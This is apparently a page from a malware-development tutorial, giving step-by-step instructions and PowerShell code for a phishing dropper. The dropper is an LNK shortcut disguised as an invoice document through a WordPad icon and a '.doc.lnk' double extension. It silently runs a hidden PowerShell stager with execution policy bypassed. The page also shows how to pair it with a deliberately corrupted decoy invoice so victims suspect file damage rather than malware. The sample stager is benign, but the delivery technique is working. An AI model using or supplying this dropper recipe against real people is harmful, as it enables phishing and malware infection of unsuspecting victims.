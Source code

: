 ```yaml
---
title: "Step 1: Stager and LNK"
---
```


<h1>Step 1: Stager and LNK</h1>

## Preparing our Environment

In a Windows VM, create a new directory called `PoC Dropper`. Inside, create a subdirectory called `iso`, containing another subdirectory called `stager`. At the end of this section, once we've built the stager and LNK file, the directory tree will look like this:

```sh
PoC Dropper/
├── iso/
│   ├── Invoice_1234.doc.lnk
│   └── stager/
│       └── stager.ps1
└── make_lnk.ps1
```

The `iso` folder will be used for construction of the ISO file in [Step 2](30 ISO.md).

## A Basic Stager

We're designing a dropper to launch a stager. Thus, we'll need to build a stager before the dropper can be tested. There's no need to build a fully-functional stager though; a simple PoC will suffice. Since we're targeting Windows, we'll write our PoC stager in PowerShell:

```sh
"Infected!" | Out-File -FilePath $HOME\Desktop\INFECTED.TXT
```

When run, the script will write `Infected!` to a file called `INFECTED.TXT` on the victim's desktop. The TXT file proves the dropper's success. Save the script in the `stager` directory as `stager.ps1`.

With that out of the way, let's build a dropper.

## LNK Construction

To entice victims, our dropper will be disguised as an invoice (per the "fraudulent charge" phishing scheme). To achieve this disguise, the LNK file will use the WordPad icon, so that it looks like a text document. In addition, it will use the `.doc.lnk` double-extension. By default, Windows hides the extensions of known filetypes; with the double-extension trick, coupled with the WordPad icon, it will appear as if the LNK is actually a Microsoft Word document.

You may be wondering: "If we're disguising the dropper as a Microsoft Word document, why are we usig an icon from WordPad?" LNK files do not include built-in icons; instead, they "borrow" icons from other files on the system. If we use the MS Word icon, but the victim doesn't have MS Word installed, the LNK file icon will be broken, and the deception will be incomplete. This problem is averted with WordPad, which has been bundled with every Windows release since Windows 95.

Our dropper doesn't have to be perfect. It just has to be good enough to fool one or two people.

To construct the LNK file, we'll once again be using PowerShell. In the `PoC Dropper` directory, create a script called `make_lnk.ps1`, with the following contents:

```sh
# Configure the launcher.
$exe = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe";
$args = "-NonInteractive -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File .\stager\stager.ps1";
$icon = "C:\Program Files\Windows NT\Accessories\wordpad.exe";
# Create the malicious LNK file.
$wss = New-Object -ComObject WScript.Shell;
$lnk = $wss.CreateShortcut(".\iso\Invoice_1234.doc.lnk");
$lnk.WindowStyle = "7"; # 1 = Default; 3 = Maximized; 7 = Minimized
$lnk.TargetPath = $exe;
$lnk.Arguments = $args;
$lnk.IconLocation = "$icon,0"; # Use the first icon from the target binary.
$lnk.save();
```

Here's what the script does:

1. Create a new `WScript.Shell` object.
2. Use the resulting object to create a new LNK file at `.\iso\Invoice_1234.doc.lnk`.
3. Set the `WindowStyle` attribute to `7`.
    * The [available options](https://www.devguru.com/content/technologies/wsh/wshshortcut-windowstyle.html) are `1`, `3`, and `7`.
    * Style `7` tells Windows to launch the shortcut in a minimized window.
4. Set the `TargetPath` and `Arguments` attributes to launch our stager.
    * Fun fact: These arguments can be abbreviated, and capitalization doesn't matter.
    * E.g. this also works: `-non -nop -ex byp -w hid -fi .\stager\stager.ps1`
5. Set the `IconLocation` to the first icon from `wordpad.exe`.
    * Some apps ship with [multiple icons](https://www.codeproject.com/Articles/19580/Embedding-Multiple-Icons-into-NET-Executables).
6. Save the `.lnk` file to the previously-specified location.

Once the script is saved, run it with PowerShell:

```sh
C:\Users\MalDev\Desktop\PoC Dropper>powershell.exe -file .\make_lnk.ps1
```

When it's complete, you should see the following items in the `iso` directory:

![Screenshot from inside the `iso` directory, showing the `stager` subdirectory and the `Invoice_1234.doc.lnk` file.](./img/lnk.jpg)

The `stager` directory contains the PoC PowerShell stager. The `Invoice_1234.doc.lnk` file uses the WordPad icon. Coupled with the double-extension trick, this completes the illusion.

## Testing the Dropper

Since our PoC stager is benign, we can safely test the LNK file. When executed, a new item appears on the task bar for a split second before vanishing:

![Screenshot showing the minimized window, named `Invoice_1234.doc`.](./img/minimized.jpg)

If the dropper and stager worked properly, you will find a file called `INFECTED.TXT` on the desktop.

# Improving the Design

Thanks to the dropper's disguise, when a vitcim opens the file, they expect Microsoft Word (or another text editor) to appear. Yet, aside from the brief blip on the task bar, nothing happens! This may arouse suspicion. To account for this, we can create a real Microsoft Word document called `Invoice_1234.doc`, store it in the `stager` directory, and launch it along with the stager. Thus, while the victim examines an official-looking statement, our stager will run in the background.

This, of course, requires us to design an official-looking statement. Producing an authentic-looking design can take significant time and effort; any inconsistency or flaw could break the deception. Therefore, we must spend painstaking hours ensuring that our fake invoice is _absolutely perfect_.

Or, if you're like me, you could just say "sod it" and create a corrupted document. Here's how:

1. Create a fake invoice file.
    * Don't worry about formatting.
    * Slap an official-looking logo at the top of the page.
    * List some expensive charges (such as a laptop and accessories).
    * Maybe add an incomplete bit about how to appeal charges. Cut it off mid-sentence.
2. Save the file as `Invoice_1234.doc`, in the `stager` directory.
3. Chop the file in half, resulting in a corrupted and incomplete document.

Here's some PowerShell code to chop your DOC in half:

```sh
$relativepath = "stager\Invoice_1234.doc";
$fullpath = ($relativepath | Resolve-Path);
$size = ((Get-Item $fullpath).length);
$newsize = ($size - ($size % 2)) / 2; # Half size, in full bytes.
$infile = [io.file]::OpenRead($fullpath);
$buffer = New-Object byte[] $newsize;
$infile.Read($buffer, 0, $newsize);
$infile.close();
Remove-Item -path $fullpath;
$outfile = [io.file]::OpenWrite($fullpath);
$outfile.Write($buffer, 0, $newsize);
$outfile.close();
```

This opens the document, saves half of the file into a buffer, then deletes and re-creates the file with only half of its data. The result, when opened in Microsoft Word, will generate an error stating that the file could not be read. Faced with this error, victims may believe that the attachment got corrupted somehow, rather than suspecting malware. If they attempt file recovery, they'll see a bit of text, possibly even the embedded logo, as they would expect from a corrupted file.

Launching the document as part of the LNK dropper is fairly straightforward; I'll leave this as an exercise for the reader. (For a hint, revisit the LNK section of the [Dropper Basics](00 Intro.md#the-lnk-dropper) page.)